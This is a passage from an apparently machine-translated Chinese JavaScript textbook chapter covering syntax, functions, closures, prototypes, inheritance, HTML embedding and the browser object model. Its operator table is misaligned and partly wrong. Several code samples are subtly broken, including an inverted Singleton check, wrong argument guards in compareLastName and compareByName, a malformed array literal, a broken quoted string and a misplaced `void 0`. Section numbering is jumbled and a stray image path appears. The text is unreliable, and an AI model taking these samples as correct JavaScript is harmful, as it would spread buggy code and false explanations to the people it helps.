```javascript
a = 1;
b = 2;
```

省略分号被认为是粗劣的编程并可能导致 bug，因此你应该养成始终使用分号的习惯。此外，由于 JavaScript 会自动为没有分号的行添加分号，你必须小心换行的位置。例如：

```javascript
return
```

将生成错误，因为它会被解释为：

```javascript
return;
```

JavaScript 拥有许多与 Java 和 C++ 相同的语句，但也有不同之处。表 4.1.5 总结了常用的语句。

### 表 4.1.5 JavaScript 语句

| 语句 | 语法 | 目的 |
| :--- | :--- | :--- |
| `break` | `break; break label;` | 跳出循环或 `switch`，并继续循环或跳转到标签语句。 |
| `continue` | `continue; continue label;` | 跳过当前循环并继续下一次迭代或跳转到标签语句。 |
| `do/while` | `do { statement; } while (expression);` | 一个在评估表达式之前执行代码块的循环。 |
| `for` | `for (initialize; test; increment) { statement; }` | 一个执行初始化、每次迭代前评估布尔条件并在每次迭代后执行递增的循环。 |
| `for/in` | `for (variable in object) { statement; }` | 遍历对象的属性或数组的索引。内置方法和某些内置属性不会被枚举。 |
| `if/else` | `if (expression) { statement; } else if (expression) { statement; } else { statement; }` | 条件执行代码块。 |
| `return` | `return [expression];` | 从函数返回，可选地返回异常的结果。 |
| `throw` | `throw expression;` | 抛出异常。 |

# 第 4 章 JavaScript 与文档对象模型

| 语句 | 语法 | 目的 |
|---|---|---|
| `try/catch` | `try { statement; } catch (identifier) { statement; } finally { statement; }` | 捕获代码块中的异常（如果有），无论是否抛出异常，都会执行最后的代码块。`catch` 块或 `finally` 块可以省略其一，但不能两个都省略。 |


| `while` | `while (expression) { statement; }` | 一个在执行代码块之前评估表达式的循环。 |

### 4.1.7 运算符

JavaScript 拥有许多在 Java 和 C++ 中常见的相同运算符，并额外增加了一些，某些在本节中进行了讨论（见表 4.1.6）。

### 4.1.8 函数

JavaScript 中的函数类似于 Java 中的方法，或者其他语言中的子程序或过程——它们定义了一个可以被调用任意次数的代码块。JavaScript 中的函数是一类对象，可以赋值给变量、添加到数组中或作为参数传递给其他函数，并且可以使用任何一个可能的多个引用随时调用。

JavaScript 函数可以可选地指定一个由逗号分隔的参数数量列表，并可选地返回一个值。函数声明不指定参数或返回值的数据类型。参数列表仅用于为参数声明局部变量名。函数内部使用 `return` 语句会导致函数停止执行并返回 `return` 语句表达式的值（如果有）。如果没有使用 `return` 语句或 `return` 语句没有关联的表达式，JavaScript 将返回 `undefined`。一旦定义，可以使用 `()` 运算符调用函数。JavaScript 中的函数使用 `function` 语句定义。

```javascript
function sayHello() {
  return "Hello";
}
```

## 表 4.1.6 JavaScript 运算符

| 运算符 | 语法 | 操作数类型 | 执行的操作 |
| --- | --- | --- | --- |
| `.` | `obj.ident` | 对象、标识符 | 访问对象的属性 |
| `[]` | `array[index]` | 数组、数字（整数） | 访问数组的索引 |
| `()` | `func(args)` | 函数、参数 | 调用函数 |
| `new` | `new const()` | 构造函数调用 | 创建新对象 |
| `++`, `--` | `++number` | 数字 | 对数字加或减 1（前置或后置） |
| `+`, `-` | `+number` | 数字 | 将数字转换为正、负数 |
| `-` | `-number` | 数字（整数） | 按位取反 |
| `!` | `!boolean` | 布尔值 | 逻辑取反 |
| `delete` | `delete obj.ident` | 标识符 | 取消属性 |
| `typeof` | `typeof variable` | 任意 | 返回操作数的数据类型名称 |
| `void` | `void expr` | 任意 | 返回 `undefined` 值 |
| `*`, `/`, `%` | `number * number` | 数字 | 乘法、除、取余 |
| `+` | `string + string` | 字符串 | 拼接两个字符串 |
| `<<` | `number << number` | 数字（整数） | 将第一个操作数的所有位向左移动第二个操作数指定的位数 |
| `>>>` | `number >> number` | 数字（整数） | 带符号扩展的位右移；带零扩展的位右移 |
| `<=` | `number < number` | 数字或字符串 | 测试小于、小于等于 |
| `>=` | `number > number` | 数字或字符串 | 测试大于、大于或等于 |
| `instanceof` | `obj instanceof constr` | 对象、构造函数 | 检查是否为指定类型的对象 |
| `in` | `ident in obj` | 字符串、对象 | 检查属性是否存在 |

（继续）

# 第 4 章 JavaScript 与文档对象模型

| 运算符 | 语法 | 操作数类型 | 执行的操作 |
| --- | --- | --- | --- |
| `==`, `!=` | `obj == obj` | 任意 | 测试相等、不相等 |
| `===`, `!= ==` | `obj === obj` | 任意 | 测试标识性、非标识性 |
| `&`, `,` | `^` | `number & number` | 数字（整数） | 按位与、或、异或 |
| `&&`, `||` | `boolean && boolean` | 布尔值 | 测试逻辑与、或 |
| `?:` | `boolean ? expr : expr` | 布尔值、任意、任意 | 条件运算（类似于 `if/else`） |
| `=` | `variable = obj` | 左值、任意 | 赋值 |
| `*=`, `/`, `%=`, `+=`, `-==`, `<<=` | `variable *= number` | 左值、任意 | 带有操作的赋值 |
| `>>`, `>>>=`, `&=`, `^`, `|=` |  |  |  |

在顶层代码中定义的上述语句在全局对象上创建一个名为 `sayHello` 的属性，该属性引用一个函数对象。JavaScript 还允许通过称为函数字面量（function literals）的语句来定义匿名函数。因此，示例可以写如下。这被称为匿名函数，因为它在定义时没有给函数命名。相反，将生成的对象赋值给一个变量。

```javascript
var sayHello = function() {
  return "Hello";
}
```

或者，你可以将函数定义为你自己的对象的属性。

```javascript
var myObj = {};
myObj.sayHello = function() {
  return "Hello";
}
```

JavaScript 允许为匿名函数可选提供一个名称，该名称只能在函数内部使用。这种方法对于定义递归函数有用。

## 4.1 JavaScript—Ajax 中的 JS 113

```javascript
var factorial = function fact(x) {
  if (x <= 1) {
    return 1;
  }
  return x * fact(x - 1);
}
```

使用函数字面量，你甚至可以允许匿名函数调用自己。

```javascript
var factorial = (function(x) {
  if (x <= 1) {
    return 1;
  }
  return x * arguments.callee(x - 1);
})(5);
```

创建函数的另一种方法是使用 `Function()` 构造函数。`Function` 构造函数接受字符串形式的参数和体。

```javascript
var add = new Function("x", "y", "return x + y");
```

## 4.1.8 可变长度参数

JavaScript 函数可以使用任意数量的参数调用，无论定义中指定的数量是多少。如果在调用函数时没有传递某些参数，则这些参数将被赋值为 `undefined`。例如，以下函数是为了可选地添加参数而编写。注意，在布尔上下文中，`undefined` 求结果为 `false`，而任何非零数字都求值为 `true`。

```javascript
function add(x, y, z) {
  var result = 0;
  if (x) { // 如果给 x 赋值，则使用它。
    result += x;
  }
  if (y) { // 如果给 y 赋值，则使用它。
    result += y;
  }
  if (z) { // 如果给 z 赋值，则使用它。
    result += z;
  }
  return result;
}
```

由于任意数量的参数都可以传递给函数，JavaScript 为每个函数提供了一个内置的 `arguments` 属性，该属性引用一个类数组对象，包含了传递给函数的参数列表。例如，可以重写 `add` 函数以添加任意数量的参数。

```javascript
function add() {
  var result = 0;
  for (var i = 0; i < arguments.length; i++) {
    result += arguments[i];
  }
  return result;
}
```

虽然 `Arguments` 对象提供了对函数参数的数组访问，但它并不是数组。它是用于函数的特殊对象。命名参数直接与其在 `arguments` 对象中的关联值绑定。如果你通过参数名更改参数值，`arguments` 对象中的值也会发生变化，反之亦然。除了索引参数列表外，`arguments` 对象还提供了通过函数定义中确定的名称来引用命名参数的能力（即 `arguments["*"]`）。`arguments` 对象还提供了属性 `callee`，它指向正在执行的函数。

`arguments` 对象的 `length` 属性指定了传递给函数的参数数量，而函数本身的 `length` 属性指定了在其参数列表中定义的参数数量。

```javascript
function add(x, y, z) {
  alert(arguments.callee.length);
}
add(); // Displays 3
alert(add.length); // length 也可以在函数外引用。
```

## 4.1.8.2 词法作用域与闭包

JavaScript 函数使用它们定义时的作用域，即执行时的作用域。这个概念被称为词法作用域。当函数被定义时，当前的作用域链会被保存并成为函数内部状态的一部分。作用域链按顺序包含函数的 `Arguments` 对象、参数、局部变量以及从外部到内部按包含关系排列的任何包含对象。因此，正如预期的，函数可以访问包含函数中的变量，但被同名局部变量隐藏的变量除外。作用域链的最后一项是全局对象。对于定义在顶层的函数，全局对象是唯一的包含对象。

待执行的代码与其执行所在的作用域的结合被称为闭包。JavaScript 函数就是闭包，如下例所示。此示例说明了导出的嵌套函数（闭包）保留了对包含函数参数值的引用，这些值等同于嵌套函数创建时的值。

```javascript
function createFunction(x) {
  return function() { return x; }
}
var fiveFunction = createFunction(5);
var tenFunction = createFunction(10);
alert(fiveFunction()); // Displays 5
alert(tenFunction()); // Displays 10
```

这种行为的一个有趣用法是使用闭包来创建一个持久且私有的变量。JavaScript 并没有像 Java 那样的私有变量概念。然而在下面的示例中，我们可以创建一个仅供导出的嵌套函数访问的变量。

# 第 4 章 JavaScript 与文档对象模型

```javascript
var incrementCount = (function() {
  var count = 0;
  return function() { return ++count; };
})();
alert(incrementCount()); // Displays 1
alert(incrementCount()); // Displays 2
```

## 4.1.8.3 `apply()` 和 `call()`

如前所述，当一个函数是对象的属性时，它被称为方法。通常，你通过引用对象来调用对象的方法。

```javascript
var myObj = {};
myObj.add = function(x, y) {
  return x + y;
}
myObj.add(1, 2);
```

JavaScript 为所有函数对象提供了两个方法，允许函数像另一个对象的方法一样被调用；换句话说，它们改变了作用作用链链。`call()` 和 `apply()` 的第一个参数是应该调用该函数的对象，该对象将成为函数体内 `this` 的值。其余参数是应该传递给函数的参数。`call()` 方法接受可变参数列表，而 `apply()` 接受参数数组。请参阅 Mozilla 在线 JavaScript 参考以获取 `call()`⁶ 和 `apply()`⁷ 有趣用法的示例。下面是一个使用 `call()` 的示例。注意 `displayName()` 函数中 `this` 的值是如何变为传递给 `call` 方法的第一个参数的。

```javascript
var Richard = { firstName: "Richard" };
var Kelly = { firstName: "Kelly" };
var displayName = function(lastName) {
  alert(this.firstName + " " + lastName);
}
displayName.call(Richard, "Allen"); // Displays "Richard Allen"
displayName.call(Kelly, "Allen"); // Displays "Kelly Allen"
```

> ¹⁶ [developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Function#Example:Using_call_to_chain_constructors_for_an_object](developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Function#Example:Using_call_to_chain_constructors_for_an_object)。

> ⁷ [developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Function#Example:Using_apply_to_chain_constructors](developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Function#Example:Using_apply_to_chain_constructors)。

## 4.1 JavaScript—在 Ajax 中

### 4.1.9 数组

JavaScript 中的数组是对象的特殊形式，它提供了使用从零开始的非整数索引和特殊的 `length` 属性引用其属性的能力。`length` 属性持有数组的当前长度，可以设置为不同的值以增加或缩短数组的长度。JavaScript 数组没有类型，因此它们可以包含任何数据的组合，包括其他数组和函数。JavaScript 不支持多维数组，但你可以创建数组的数组。与 Java 或 C++ 不同，JavaScript 数组会动态增长以容纳添加的新元素。

数组使用 `Array()` 构造函数或数组字量符号创建。使用 `Array()` 构造函数的唯一理由是创建一个特定长度的空数组。

```javascript
var myArray = new Array(50); // 长度为50，有50个未定义的元素。
myArray.length = 0; // 现在长度为0。
myArray[0] = 0; // 动态增长以容纳添加的元素。
myArray[1] = 1;
myArray[3] = 3; // 现在长度为4，有1个未定义的元素。
```

否则，数组字面量表示简洁得多。

```javascript
var emptyArray = []; // 使用字面量符号创建空数组。
var myArray = [true, 5, "hello", {x:1, y:2}], [1, 2, 3]];
```

### 4.1.10 正则表达式

JavaScript 正则表达式可以使用 `RegExp()` 构造函数或正则表达式字面量创建。例如，以下匹配 "ajax"，不区分大小写。

```javascript
var RegExp1 = /ajax/i;
var RegExp2 = new RegExp("ajax", "i");
```

## 4.1.1 错误处理

JavaScript 定义了几个表示错误的对象，包括 `EvalError`、`RangeError`、`SyntaxError`、`TypeError` 和 `URIError`。这些对象在发生错误时生成。每个错误对象包含一条消息。你可以通过使用 `throw` 关键字后跟表达式来抛出异常。

```javascript
throw new Error("My error");
throw "An error";
```

当抛出异常时，解释器停止正常执行并跳转到最近的异常处理器。如果没有找到异常处理器，将报告错误。你可以使用 `try/catch/finally` 定义异常处理器。`try` 块围绕预期抛出的代码，`catch` 块处理异常，`finally` 块

> ¹⁸ [developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:RegExp](developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:RegExp)。

> ¹⁹ [developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Error](developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference:Global_Objects:Error)。

## 4.1 JavaScript—在 Ajax 中

```javascript
function calculateSlope(points) {
  try {
    return (points.y2 - points.y1) / (points.x2 - points.x1);
  } catch (e) {
    alert("Invalid arguments: " + e.message);
  }
}
calculateSlope(); // Displays error message.
```

当 JavaScript 在浏览器中执行时，`window` 对象提供了一个 `onerror` 属性，可以赋值一个函数来处理任何 JavaScript 错误。浏览器将向错误处理器函数传递三个参数。第一个是描述错误的消息。第二个参数是引起错误的 JavaScript 代码的文档 URL 字符串。第三个参数是发生错误的行号。因此你可以这样定义错误处理器。

```javascript
window.onerror = function(msg, url, line) {
  alert("Error occurred on line " + line + " of " + url + " : " + msg);
}
```

## 4.1.12 构造函数与模拟类


JavaScript 尚未支持像 Java 或 C++ 那样的真正的类；然而，你可以通过构造函数和原型对象来模拟类。为了定义可以创建多个实例的对象，你定义一个构造函数。构造函数看起来和 JavaScript 中的任何其他函数一样，它通常会添加属性且没有返回语句。例如，下面定义了一个 Person“类”：²⁰ ```javascript
function Person(id, firstName, lastName, middleName, suffixName) {
  this.id = id;
  this.firstName = firstName;
  this.lastName = lastName;
  this.middleName = middleName || "";
  this.suffixName = suffixName || "";
}
```

在 JavaScript 中，`this` 始终指向正在执行的函数的“所有者”。当用于顶层函数时，它指向全局对象。由于

> ²⁰因为由于 JavaScript 没有正式的类概念，“类”一词在本书书中被松散地用来描述构造函数或使用相同构造函数实例化的对象组。

例如，如果`Person()`函数被定义为一个顶层函数（意味着没有嵌套在另一个函数内部），并且被当作函数而不是方法执行（例如`var john = Person(1, "John", "Doe");`），这将引用全局对象（在浏览器中是`window`）。JavaScript 解释器将隐式地创建`id`、`firstName`、`lastName`、`middleName`和`suffixName`变量作为`window`对象的属性。这不是想要的结果——我们想要创建一个`Person`的实例。

在 JavaScript 中创建类的实例，你必须使用`new`运算符。`new`运算符会创建一个没有任何属性的新对象，然后调用指定的函数，并将新对象作为`this`关键字的值传递。构造函数可以使用该`this`关键字来初始化新对象。

```javascript
var john = new Person(1, "John", "Doe");
```

你通常不会从构造函数中返回值；但是，JavaScript 允许你这样做。如果构造函数返回了一个值，该值将成为`new`运算符的结果，而新创建的对象将被丢弃。关于这一点的一个有趣例子是 JavaScript 中创建单例（Singleton）的一种方法。

```javascript
var Singleton = (function() {
  var instance = null; // 私有变量。
  return (function() { // 返回构造函数。
    if (instance) {
      instance = this;
      // 可以在这里进行一些初始化。
    }
    return instance; // 构造函数返回一个值。
  })() // 匿名函数的内执行
);
```

```javascript
var instance1 = new Singleton();
var instance2 = new Singleton();
alert(instance1 == instance2); // 显示 true.
alert(instance1 === instance2); // 显示 true.
```

`new`运算符同时也作为对象的原型（prototype），原型是构造函数`prototype`属性的值。每个函数在

> 21 [http://en.wikipedia.org/wiki/Singleton_pattern.](

## 4.1 JavaScript—原型

JavaScript 在函数定义时会自动获得一个`prototype`属性。`prototype`属性最初被赋值为一个对象，包含一个`constructor`属性，该属性指向关联的构造函数。你允许向原型对象分配属性，甚至可以重新为`prototype`属性分配另一个值。原型对象上的每个属性都可以被访问，就像它是通过`new`运算符创建对象的属性一样。例如，如果你为`Person`的原型对象分配一个函数，那么你就可以调用该函数，就像它是`Person`对象的方法一样。

```javascript
Person.prototype.compareLastName = function(other) {
  if (other || !(other instanceof Person)) {
    throw new Error(
      "Invalid argument passed to compareLastName(): " + other
    );
  }

  if (this.lastName > other.lastName) {
    return 1;
  }

  if (other.lastName == this.lastName) {
    return 0;
  }

  return -1;
};
```

```javascript
var john = new Person(1, "John", "Doe");
var jane = new Person(2, "Jane", "Doe");

alert(john.compareLastName(jane)); // 显示 0.
```

### 4.1.12.1 实例属性和方法

在面向对象的语言中，可能存在同一个类的多个对象。这些对象通常被称为类的实例。Java 中的实例属性和方法是那些与类的实例相关的属性——也就是说，它们只能通过使用定义它们的类的实例的对象来访问。为了在 JavaScript 中进行类比，你可以说在构造函数中分配给`this`的属性是该构造函数所定义类的实例属性。这些属性被赋值给由`new`运算符创建的对象，你可以将其认为该类的实例。因此，`Person`类的`id`、`firstName`、`lastName`、`middleName`和`suffixName`属性是该类的实例属性。

你可以通过向构造函数的`prototype`属性分配方法来在 JavaScript 中定义实例方法，就像之前将`compareLastName()`分配给`Person`的`prototype`属性一样。然而，在 JavaScript 中，函数是对象，因此函数也可以被分配给构造函数中的实例属性，从而创建该构造函数所定义类的实例方法。例如，`compareByLastName()`方法可以分配给`this`而不是`prototype`属性。

```javascript
function Person(id, firstName, lastName, middleName, suffixName) {
  this.id = id;
  this.firstName = firstName;
  this.lastName = lastName;
  this.middleName = middleName || "";
  this.suffixName = suffixName || "";

  this.compareByLastName = function(other) {
    if (!other || !(other instanceof Person)) {
      throw new Error("Invalid argument passed to compareByLastName: " + other);
    }

    if (this.lastName > other.lastName) {
      return 1;
    }

    if (other.lastName == this.lastName) {
      return 0;
    }

    return -1;
  };
}
```

```javascript
var john = new Person(1, "John", "Doe");
var jane = new Person(2, "Jane", "Doe");

alert(john.compareByLastName(jane)); // 显示 0.
```

在 JavaScript 中创建实例方法的这两种方式之间存在显著差异。将适用于整个类的方法分配给`this`关键字是低效的，因为 JavaScript 解释器在每次创建类的实例时都必须创建该函数。换句话说，上面提供的例子，当函数被分配给构造函数的`prototype`属性时（正如我们所做的那样），所有`Person`实例将共享该函数。`id`、`firstName`、`lastName`、`middleName`和`suffixName`属性是该类的实例属性。

## 4.1.12.2 类属性和方法

Java 中的类属性和方法是那些与类相关的——也就是说，它们只能通过使用定义它们的类的实例对象来访问。为了在 JavaScript 中进行类比，你可以说在构造函数中分配给`this`的属性是该构造函数所定义类的实例属性。这些属性被赋值给由`new`运算符创建的对象，你可以将其认为该类的实例。JavaScript 没有可见性修饰符，因此通常一切都是公开的。在 JavaScript 中创建类属性，你直接分配给构造函数。例如，我们可以定义一个`PwdUtils`类，确保给密码包含一组特殊字符。

```javascript
function PwdUtils() {}

PwdUtils.SPECIAL_CHARS = "!#$%&*()={}|:'.<>/";

PwdUtils.validatePassword = function(pwd) {
  for (var i = 0; i < PwdUtils.SPECIAL_CHARS.length; i++) {
    if (pwd.indexOf(PwdUtils.SPECIAL_CHARS.charAt(i)) > -1) {
      return;
    }
  }

  alert("密码必须包含来自 " + PwdUtils.SPECIAL_CHARS + " 的字符");
};
```

Java 中类常量（标记为`static final`的标识）的命名约定是全大写字母并用划线分隔单词（例如`SPECIAL_CHARS`）。ECMAScript 没有定义常量变量的符号；但这种命名约定对于 JavaScript 中的类属性仍然有用。

### 4.1.12.3 私有成员

JavaScript 没有可见性修饰符允许你将类的成员私有。但你可以使用闭包技术来实现私有成员。这种方法之前已经演示过。这里另一个例子：

```javascript
function Person(id, firstName, lastName) {
  // 私有实例成员。
  var id = id;
  var firstName = firstName;
  var lastName = lastName;

  // 可以访问私有实例方法的特权方法。
  this.getId = function() {
    return id;
  };

  this.getFirstName = function() {
    return firstName;
  };

  this.setFirstName = function(name) {
    firstName = name;
  };

  this.getLastName = function() {
    return lastName;
  };

  this.setLastName = function(name) {
    lastName = name;
  };
}
```

```javascript
var john = new Person(1, "John", "Doe");

alert(john.firstName); // 显示 undefined.
alert(john.getFirstName()); // 显示 John.
```

## 4.1 JavaScript—JS Ajax

```javascript
alert(john.getLastName()); // Displays Doe.

john.setFirstName("Jane");

alert(john.getFirstName()); // Displays Jane.
```

在例例中，我们创建了可以访问私有实例属性的公共实例方法。正如我们之前讨论过的，这样做效率很低，因为解释器在每次创建`Person`实例时，都必须创建每个 get/set 函数对象。然而，有一种方法可以在类级别（与原型关联）模拟实例方法，你可以在网上读到相关内容。22

### 4.1.2 继承

JavaScript 中的继承是通过函数的原型对象实现的。正如前面提到的，JavaScript 中的每个函数都获得了一个`prototype`属性，该属性被初始化为一个包含一个属性（`constructor`）的对象。`prototype`对象的`constructor`属性引用了该原型关联的构造函数。使用`new`运算符通过构造函数创建的对象继承自该构造函数原型对象的所有属性。使用对象字面量符号创建的对象继承自内置的`Object`类，因此对于这些对象来说，它们的原型是与`Object()`函数关联的那个。

举个简单的例子，考虑`constructor`属性。`constructor`属性是函数原型对象的一个成员。然而，当你通过`new`创建一个函数（类）对象时，你可以引用`constructor`属性，就像它是该新对象的属性一样。这里有一个例子。

```javascript
function Person(id, firstName, lastName) {
  // 这些都变成由 new 运算符创建的对象的属性。
  this.id = id;
  this.firstName = firstName;
  this.lastName = lastName;
}
```

> 22 http://www.litotes.demon.co.uk/js_info/private_static.html.

# 第 4 章 JavaScript 与文档对象模型

```javascript
// id, firstName, 和 lastName 成为被变量 john
// 以及上面 Person 函数定义中的关键字
// 所引用的对象的变量属性。
var john = new Person(1, "John", "Doe");
```

```javascript
// prototype 是函数的成员，而不是由 new 创建的对象的。
alert(Person.prototype); // Displays object.
alert(john.prototype); // Displays undefined.
```

```javascript
// 由 new 创建的对象（被变量 john 引用）
// 继承了 Person 原型对象的 constructor 属性。
alert(john.constructor); // Displays result of Person.toString().
alert(john.constructor.prototype === Person.prototype); // Displays true.
alert(john.constructor === Person.prototype.constructor); // Displays true.
```

```javascript
// 继承的属性表现得像普通属性，并被
// for in 循环枚举。使用 Object.hasOwnProperty() 函数
// 来区分继承的属性和非继承的属性。
alert(john.hasOwnProperty("firstName")); // Displays true.
alert(john.hasOwnProperty("constructor")); // Displays false.
```

构造函数原型对象的属性被所有使用该函数创建的对象所继承。因此，将类方法添加到原型上，比添加到`this`关键字上更高效。添加到构造函数原型对象上的属性，即使这些属性是在实例创建后添加的，也会被该类的对象继承。

当你引用对象的属性时，JavaScript 首先检查该属性是否是该对象的成员。如果对象没有该属性，JavaScript 就会检查原型中是否存在该属性。由于原型是一个对象，它也可以有一个关联的原型，形成原型链，这就是继承层次结构。JavaScript 将沿着原型链向上搜索直到找到该属性。如果未找到该属性，则返回`undefined`。这就是 JavaScript 中的工作原理，它解释了 JavaScript 中的所有对象如何继承自内置的`Object`类。原型对象是使用`Object()`构造函数创建的，因此它的原型默认是`Object()`函数的原型。除非我们更改`prototype`属性引用的内容，否则我们定义的函数之间创建继承层次结构。例如，我们可以创建一个名为`User`的`Person`子类。

## 4.1 JavaScript—in in Ajax

```javascript
function Person(id, firstName, lastName) {
  this.id = id;
  this.firstName = firstName;
  this.lastName = lastName;
}
```

```javascript
Person.prototype.compareByName = function(other) {
  if (!other || !(other instanceof Person)) {
    throw new Error(


```javascript
 "Invalid argument passed to compareByName: " + other);
```

```javascript
function User(id, firstName, lastName, username) {
  // 调用 Person 构造函数，但使用
  // 分配给 User 的 this 关键字的 new 对象。这里
  // 使用了 call() 函数。这被称为
  // 构造链。
  Person.call(this, id, firstName, lastName);

  // 初始化 User 属性
  this.username = username;
}
```

```javascript
// 我们必须将 Person 的原型实例
// 赋值给子类 User。否则，我们将继承 Object。
User.prototype = new Person();
```

```javascript
// 我们必须将 constructor 属性重新赋值给 User
// 函数；否则 User 对象的构造函数
// 将是 Person 函数。
User.prototype.constructor = User;
```

```javascript
// 现在既然我们已经建立了层次结构，我们就可以为 User
// 添加实例方法。User 中的实例方法
// 将覆盖 Person 中任何同名的实例方法。
User.prototype.compareByName = function(other) {
  if (this. || !(other instanceof User)) {
    throw new Error("Invalid argument passed to User.compareByName: " + other);
  }

  if (this.userName > other.userName) {
    return 1;
  }

  if (this.userName == other.userName) {
    return 0;
  }

  return -1;
}
```

```javascript
var john = new User(1, "John", "Doe", "john.doe");

alert(john instanceof Person); // Displays true.
alert(john instanceof User); // Displays true.
alert(john.firstName); // Displays John.
```

```javascript
var bill = new User(2, "Bill", "First", "bill.first");

alert(john.compareByName(bill)); // Displays 1.
alert(john.constructor.prototype.compareByName(bill)); // Displays -1.
```

常见的做法是在子类原型上添加一个父类属性，指向父类构造函数。这样做允许你移除对 `call()` 函数的使用。

```javascript
function User(id, firstName, lastName, userName) {
  this.superclass(id, firstName, lastName);
  this.userName = userName;
}
```

```javascript
User.prototype.superclass = Person;
```

在 JavaScript 中创建类层次结构比在 Java 或 C++ 中复杂，但也可以更灵活。例如，对象可以继承对象。²³

> ²³http://javascript.croford.com/prototypal.html

## 4.2 在 HTML 中嵌入 JavaScript

要让浏览器执行你的 JavaScript 代码，你必须将其嵌入 HTML 页面中。有几种方法可以实现这一点。

1. 将你的 JavaScript 代码放在起始和结束 `<script>` 标签之间。浏览器从上到下处理 HTML 页面，执行它在 `<script>` 标签之间找到的任何 JavaScript。你可以根据需要放置任意数量的 `<script>` 标签——可以在 `<head>` 或 `<body>` 标签内部任意。

   JavaScript 代码在相同的作用域下执行，因此在一个 `<script>` 标签中定义的顶层变量可以引用另一个 `<script>` 标签中定义的顶层变量。然而，浏览器从上到下处理页面，因此在加载之前，你无法引用 JavaScript 变量或 HTML 标签。

   要推迟脚本的执行，你可以将代码放入函数并将该函数赋值给 `onload` 事件处理器，或使用 `<script>` 标签的 `defer` 属性。`onload` 事件处理器会在整个页面加载后被调用。`defer` 属性告诉浏览器等待执行 JavaScript 代码，直到遇到无法推迟的脚本或页面加载，以先到者为准。

   遗憾的是，并不是所有浏览器都正确实现了 `defer` 属性，因此使用时要小心。如果你正在使用 XHTML，你应该将 JavaScript 放在 CDATA 区中，以防止 XML 特殊字符（如 `<`）被 XML 解析器处理。以下是在 `<script>` 标签之间嵌入 JavaScript 的 XHTML 示例。

   ```html
   <html>
   <body>
     <script>
       window.alert('I'm here because of JavaScript.');
     </script>
   </body>
   </html>
   ```

2. 使用 `<script>` 标签的 `src` 属性导入外部 JavaScript 文件。`src` 属性指定包含 JavaScript 代码的文件的 URL。JavaScript 文件通常具有 `.js` 扩展名，并且仅包含 JavaScript 代码。在 JavaScript 文件内部，你不需要（也无法）使用 `<script>` 标签或其他 HTML 标签。这是一个示例：

   ```html
   <script src="javascript/formUtil.js"></script>
   ```

3. 将 JavaScript 赋值给 HTML 标签的事件处理器属性。许多 HTML 标签支持事件处理器属性，因此你可以分配一些代码，以便在例如用户点击按钮时执行某些操作。下文是一个示例：

   ```html
   <button onclick="window.alert('I have been clicked!');">Click me!</button>
   ```

4. 将一行 JavaScript 代码分配给一个带有 `javascript:` 伪协议前缀的 URL。当你使用此伪协议并在其后跟一行 JavaScript 代码时，浏览器会执行该 JavaScript 代码并显示代码返回的任何内容，但如果代码没有返回任何内容，则不会更改当前显示的页面。

   通常情况下，你不希望浏览器因为 URL 的结果显示任何内容，因此你不返回任何内容。为了确保不向解释器返回任何内容，通常会在 JavaScript 代码后跟一个 `void` 语句。这是一个点击链接时打开新窗口的示例：

   ```html
   <a href="javascript: window.open('myPage.html');" void 0>Click me!</a>
   ```

在 HTML 中使用 JavaScript 的最佳实践是使用 `<script>` 标签的 `src` 属性导入 JavaScript 代码。这种技术相比其他方法有几个优点。它将你的 JavaScript 与 HTML 代码完全分离，使得理解、阅读和维护代码变得简单得多。JavaScript 代码可以轻松地跨网页复用。JavaScript 文件可以被浏览器缓存，从而使未来的页面加载以及使用相同文件的其他页面加载速度更快。

## 4.3 浏览器对象模型（BOM）

其他将 JavaScript 嵌入 HTML 的技术均不被推荐，特别是将 JavaScript 代码赋值给 HTML 事件处理器属性以及使用 `javascript:` 伪协议的技术。你可以通过外部 JavaScript 文件完成你需要的一切。

JavaScript 可能是 Web 上最流行的脚本语言，但它不是唯一的语言。因此，HTML 规范为了保持语言中立，允许你告诉浏览器 `<script>` 标签中使用了哪种语言。你通过声明 MIME 类型来识别你正在使用的语言。JavaScript 的 MIME 类型传统上是 `text/javascript`；然而，由于 JavaScript 程序不是真正的文本文档，互联网标准已经弃用了该类型，转而采用 `application/javascript`。遗憾的是，对 `application/javascript` 的支持尚未普及。

你可以使用 `<meta http-equiv="Content-Script-Type" content="text/javascript" />` 指定 HTML 文件中所有脚本的默认脚本语言：

```html
<meta http-equiv="Content-Script-Type" content="text/javascript" />
```

或者你可以通过 `<script type="text/javascript"></script>` 的 `type` 属性对特定脚本进行设置：

```html
<script type="text/javascript"></script>
```

大多数浏览器默认假设你的代码是 JavaScript，即使你不指定 MIME 类型，但指定一个好主意。

## 4.3 浏览器对象模型（BOM）



浏览器对象模型（BOM）定义了一组主机对象及其关系，用于操作或获取有关浏览器的信息。BOM 提供了一个 API，用于显示对话框、打开和关闭新浏览器窗口、调整窗口大小、浏览器窗口尺寸、在浏览器历史中后退和前进、获取浏览器名称和版本、获取操作系统名称、加载新文档等。

BOM 并没有像 W3C 这样的标准机构标准化，但它是一个事实标准，你可以依赖所有现代浏览器提供它。然而，BOM 在每个浏览器中并不相同——只有一组核心对象是相同的，本节将重点介绍这部分。非通用 BOM 功能请参阅浏览器供应商文档。24

## JavaScript 和文档对象模型


BOM 是一个对象的层次结构，以 `window` 对象为根。`window` 对象之下是 `navigator`、`screen`、`history`、`location` 以及 4.3.1 文档对象模型（DOM），将在下一节讨论。`window` 对象是全局。

### 4.3.1 `window`

`window` 对象是浏览器中的全局对象。以下是常用的 `window` 属性。

#### `window` 属性

- `closed`—一个表示窗口是否关闭的布尔值。
- `document`—指向文档的引用。
- `frames`—指向帧的引用。
- `history`—指向历史的引用。
- `location`—指向位置的引用。
- `opener`—指向创建该窗口的窗口的引用。
- `parent`—指向父窗口的引用。
- `self`—指向窗口本身。
- `top`—指向顶级窗口的引用。

